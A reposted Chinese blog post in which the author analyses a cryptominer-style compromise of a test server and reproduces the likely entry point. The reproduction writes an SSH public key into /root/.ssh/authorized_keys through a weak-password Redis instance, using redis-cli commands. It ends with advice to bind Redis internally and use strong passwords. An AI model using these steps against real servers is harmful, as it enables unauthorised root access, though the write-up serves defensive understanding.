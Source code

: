 转自：http://chonger.org/2017/08/31/20170831142300.html



# 记服务器被入侵过程分析(基于Redis弱口令入侵)

晚间突然服务器CPU使用率告警，刚开始没有放在心上，结果连接服务器一看，瞬间就精神了，CPU使用率直接飙到300%多，明显不是误报，立马跟踪异常进程，最终确认中招了，恶意木马。没办法，手动先清除木马，结果，刚清除木马进程、文件后立即又会复制运行，明显是有守护进程存在的，通过分析木马脚本追踪到守护进程，最终才删除掉恶意程序。

虽然哥已不在江湖(瞎说的)，但是这样被黑心里也是不爽的，虽然只是一台搁置的测试服务器，结果还是中招了。亡羊补牢，那就分析下是如何进来的，然后做出应对防范。

通过查看服务器对外端口，初步没看到异常，数据服务、web服务、流媒体服务，都是测试使用，web服务也没有上传漏洞，注入也不应该，都是静态文件，最后就定位到了Redis的服务上了。

由于为了方便测试，Redis随手设置的是弱口令，随便一个猜解程序(看来我也要重新写个扫描程序了)应该跑跑就出来了。那么可能就是通过Redis的弱口令漏洞进来的。本能的直觉，可疑，那么就自己来利用下Redis的弱口令入侵，看看是否可行。

### **基于Redis弱口令的入侵**



切记，仅可用于技术研究，不可用于非法用途！后果自负！
切记，仅可用于技术研究，不可用于非法用途！后果自负！
切记，仅可用于技术研究，不可用于非法用途！后果自负！

我们都知道，Redis目前版本的运行权限较高，更何况我们的测试服务器上的更老，那么我们假设猜解了Redis的口令，那么就可以获取一个`Redis Shell`，那么就可以通过这个Shell来使用`config`、`save`命令来完成一次文件的写入操作。

既然能在目标文件服务器上写入文件，那么假设写入的一个**免密登陆**的公钥呢？那危害就瞬间放大了，接下里按照这个思路来进行下入侵测试。

**准备公钥** 
这个就不多说了，只要是开发人员都是知道的，为了测试方便，我在本机重新生成一个：

```
生成密钥
$ ssh-keygen –t rsa  
#或者
$ ssh-keygen –t rsa -P ''
```



两者都是回车到结束，然后会生成一个`id_rsa` 和 `id_rsa.pub` 文件。

**准备Redis值字符串** 
通过手动复制`id_rsa.pub`内容或者使用以下命令都ok，生成一个存放字符串的文件，建议前后多空格。

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > mykey
```



前面三条语句会先输出空行，然后输出`id_rsa.pub`内容，接着输出空行，然后合并到一个文件`mykey`中，文件内容会如下：
[![生成文件结果](http://chonger.org/2017/08/31/20170831142300/mykey.png)](http://chonger.org/2017/08/31/20170831142300/mykey.png)生成文件结果

**将值写入Redis** 
由于我们已经猜解到Redis的口令，所以可以使用`redis-cli`连接服务通过`set`写入值，也可以使用下面的方法

```
$ cat mykey | redis-cli -h 服务地址 -a 弱口令 -x set mykey
#或者建立连接后
:6379> set mykey 文件内容
```



这样将会在Reids中写入一个kv对，key为我们定义的`mykey`，value为免登陆内容。
[![Redis写入结果](http://chonger.org/2017/08/31/20170831142300/redis.png)](http://chonger.org/2017/08/31/20170831142300/redis.png)Redis写入结果

**通过Redis 写入文件** 
这一步我们将利用Redis的机制，来完成文件的写入。

建立 Redis 服务连接

```
$ redis-cli -h 服务地址 -a
```



通过`config`命令生成文件，将文件写入到`/root/.ssh/authorized_keys`
[![生成文件结果](http://chonger.org/2017/08/31/20170831142300/config.png)](http://chonger.org/2017/08/31/20170831142300/config.png)生成文件结果
生成的`authorized_keys`文件内容为：
[![文件内容](http://chonger.org/2017/08/31/20170831142300/keys.png)](http://chonger.org/2017/08/31/20170831142300/keys.png)文件内容

**测试登陆** 
[![ssh登陆](http://chonger.org/2017/08/31/20170831142300/ssh.png)](http://chonger.org/2017/08/31/20170831142300/ssh.png)ssh登陆
我这里为了对比效果，所以放在了一起，可以看到，上图有两次登陆，第一次会要求密码，而第二次则直接登陆了。

到这里恭喜你已经获取到`shell`了，然后切记，不要做任何破坏，退出！！！

最后，还原Redis的配置信息

```
:6379> config set dir /tmp
:6379> config set dbfilename dump.rdb
```



**后记** 
从上面的过程我们其实已经看到了，**Redis的写文件功能虽然初衷是为了做数据备份，结果如果被合理利用，造成的破坏是巨大的。这点其实和以前一些开源系统中的数据备份功能入侵是一样的**，只是被有心人给利用了。

那么为了防范这种问题，运维人员就要自我反省了，为什么会有弱口令的存在呢？ 虽然Redis官方已经说会添加执行的权限限制，可是弱口令的危害远远不止于此。

所以从根本上来防范，一般数据服务器都建议要求服务为内网访问，而不要提供`0.0.0.0`的绑定，同时，密码强度要够。

**扩展** 
有人提到Redis支持`EVAL`，这样可以基于`lua`脚本进行攻击了，其实这点可利用的地方不大，我们看下官方的说明：

[![生成文件结果](http://chonger.org/2017/08/31/20170831142300/lua.png)](http://chonger.org/2017/08/31/20170831142300/lua.png)生成文件结果

都是些基础的库，对于`io`和`os`并不支持，通过测试也是会提示`Script attempted to access unexisting global variable`，所以这点不用太过于紧张的。